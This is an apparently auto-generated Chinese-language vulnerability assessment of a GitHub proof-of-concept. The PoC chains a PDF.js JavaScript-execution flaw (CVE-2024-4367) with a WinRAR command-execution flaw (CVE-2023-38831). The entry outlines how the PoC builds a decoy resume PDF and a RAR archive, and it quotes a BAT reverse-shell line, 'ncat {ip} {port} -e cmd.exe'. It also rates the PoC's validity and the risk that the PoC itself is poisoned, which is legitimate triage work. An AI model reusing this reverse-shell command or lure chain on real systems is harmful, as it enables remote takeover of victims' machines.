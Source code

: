 ## CVE-2024-4367 & CVE-2023-38831 PDFernet Remotelo

**漏洞编号:** CVE-2024-4367

**漏洞类型:** PDF.js 字体处理类型检查缺失导致任意JavaScript执行 & WinRAR命令执行

**影响应用:** Firefox, Firefox ESR, Thunderbird, WinRAR

**危害等级:** 高危，允许攻击者远程执行任意命令

**影响版本:** Firefox < 126, Firefox ESR < 115.11, Thunderbird < 115.11, WinRAR <= 6.22

**利用条件:** 目标系统需安装受影响版本的Firefox/Thunderbird和WinRAR，且用户需要打开恶意PDF文件

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该POC利用了CVE-2024-4367 (PDF.js字体处理类型检查缺失导致任意JavaScript执行) 和 CVE-2023-38831 (WinRAR命令执行) 两个漏洞。

**漏洞利用方式:**
1.  **CVE-2024-4367:**  通过构造恶意的PDF文件，绕过PDF.js的类型检查，在PDF.js上下文中执行任意JavaScript代码。
2.  **CVE-2023-38831:**  利用WinRAR处理压缩包时的命令执行漏洞。恶意rar文件中包含pdf和bat脚本,当用户尝试打开这个PDF文档时，会触发WinRAR漏洞，执行捆绑的BAT脚本。
3.  **POC代码流程:**
    *   主脚本`PDFernetRemotelo.py`提示用户输入攻击者IP和端口。
    *   创建诱饵PDF文件（`ResumendeSueldo.pdf`）和一个包含反向shell命令的BAT脚本（`script.bat`），脚本内容为`ncat {ip} {port} -e cmd.exe`。
    *   使用`PDFernet.py`脚本生成包含恶意JavaScript的`poc.pdf`文件，该JavaScript代码由用户提供的payload生成，此payload会被嵌入到PDF的字体信息中.
    *   `Remotelo.py`脚本创建一个RAR压缩包（`PDFernetRemotelo.rar`），其中包含诱饵PDF文件和BAT脚本。
    *   用户打开`PDFernetRemotelo.rar`中的`ResumendeSueldo.pdf`，触发CVE-2024-4367，执行嵌入的恶意JavaScript代码。
    *   恶意JavaScript代码可能触发CVE-2023-38831，执行RAR压缩包中的`script.bat`，建立与攻击者机器的反向shell。

**有效性评估:**
根据漏洞信息和搜索结果，该POC在受影响的版本中是有效的。GitHub上已经有该漏洞的武器化利用。

**投毒风险评估:**
该POC代码的主要功能是生成包含恶意代码的PDF和RAR文件，其核心功能是利用已知的漏洞。`PDFernetRemotelo.py` 使用了外部脚本 `PDFernet.py`和 `Remotelo.py`，审查这些脚本，发现`PDFernet.py`中的payload生成逻辑是可控的，直接来自于用户提供的参数。`Remotelo.py`脚本创建RAR压缩包的过程比较标准。投毒风险在于：
1.  **依赖外部脚本:** `PDFernetRemotelo.py` 调用了`PDFernet.py` 和 `Remotelo.py` 脚本,存在恶意修改此脚本的可能性.
2.   **Payload嵌入方式:** 恶意代码嵌入在PDF字体信息中，如果对PDF格式不熟悉，很难直接看出是否存在恶意代码。审查时需谨慎。
3.   **隐蔽性:** 利用RAR压缩包将PDF和BAT脚本捆绑在一起，增加了攻击的隐蔽性。

代码中可能存在的投毒点在于：
1.  在`PDFernet.py`中，攻击者可能会添加额外的JavaScript代码，执行恶意操作，例如下载恶意文件或窃取用户数据。
2.  在生成的RAR压缩包中，可能会添加额外的文件，例如恶意DLL文件或后门程序。

基于以上分析，虽然核心代码看起来比较直接，但考虑到依赖外部脚本以及payload嵌入方式的隐蔽性，仍然存在一定的投毒风险。保守估计投毒风险为10%。

**项目地址:** [UnHackerEnCapital/PDFernetRemotelo](https://github.com/UnHackerEnCapital/PDFernetRemotelo)

**漏洞详情:** [CVE-2024-4367](https://nvd.nist.gov/vuln/detail/CVE-2024-4367)